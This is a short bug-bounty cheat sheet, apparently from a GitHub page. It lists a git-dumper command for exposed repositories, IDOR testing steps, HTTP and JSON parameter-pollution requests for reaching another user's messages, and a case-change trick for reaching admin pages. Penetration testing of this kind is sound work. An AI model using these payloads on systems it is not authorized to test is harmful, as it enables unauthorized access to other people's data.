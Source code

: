 ### Template - Nuclei
https://raw.githubusercontent.com/esetal/nuclei-bb-templates/master/xss-fuzz.yaml

## Git Exposed
```
git-dumper http://site.com/.git .
```
https://github.com/arthaud/git-dumper

### Tools
https://github.com/internetwache/GitTools

## Broken Access Control
### IDOR (Insecure Direct Object References)
1. Search listing of Id's in requests and in case you don't find create at least two accounts and analysis requests involving ID's  
2. Identify access controls in the application  
3. Change the request method (GET, POST, PUT, DELETE, PATCH…)  
4. Search old versions of API's /api/v1/ /api/v2/ /api/v3/  
5. Try sending a (*) instead of the ID, especially at search points  
6. Brute-force IDs depending on context and predictability 
	
### IDOR + Parameter Pollution
#### HTTP Parameter Pollution
```
GET /api/v1/messages?id=<Another_User_ID> # unauthourized
GET /api/v1/messages?id=<You_User_ID>&id=<Another_User_ID> # authorized
GET /api/v1/messages?id[]=<Your_User_ID>&id[]=<Another_User_ID>
```
	
#### Json Parameter Pollution
```
POST /api/v1/messages
{"user_id":<You_user_id>,"user_id":<Anoher_User_id>} 
```
-> with a JSON Object
```
POST /api/v1/messages
{"user_id":{"user_id":<Anoher_User_id>}} 
```
-> with array  
```
{"user_id":001} #Unauthorized
{"user_id":[001]} #Authorized
```
#### Random Case
GET /admin/profile #Unauthorized
GET /ADMIN/profile #Authorized

### UUIDv1
https://caon.io/docs/exploitation/other/uuid/  
https://github.com/felipecaon/uuidv1gen
